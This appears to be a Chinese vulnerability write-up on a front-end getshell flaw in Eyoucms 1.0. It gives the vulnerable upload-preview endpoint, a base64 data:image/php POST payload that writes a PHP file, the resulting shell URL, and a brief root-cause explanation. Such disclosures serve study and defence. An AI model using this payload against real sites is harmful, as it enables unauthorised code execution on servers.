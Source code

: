 Eyoucms 1.0 前台getshell
========================

一、漏洞简介
------------

官网：http://www.eyoucms.com/download/Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

二、漏洞影响
------------

三、复现过程
------------

老样子：先讲如何利用

    url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview

    构造: <?php phpinfo;

![](./resource/Eyoucms1.0前台getshell/media/rId24.png)

    post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==

![](./resource/Eyoucms1.0前台getshell/media/rId25.png)

Shell:
http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![](./resource/Eyoucms1.0前台getshell/media/rId26.png)

![](./resource/Eyoucms1.0前台getshell/media/rId27.png)

### 原理分析

漏洞文件： eyoucms1.0\\application\\api\\controller\\Uploadify.php漏洞函数：preview()

![](./resource/Eyoucms1.0前台getshell/media/rId29.png)

![](./resource/Eyoucms1.0前台getshell/media/rId30.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的
表示data:image/ 居然还可以不是图片？好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/
只能是图片。

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh
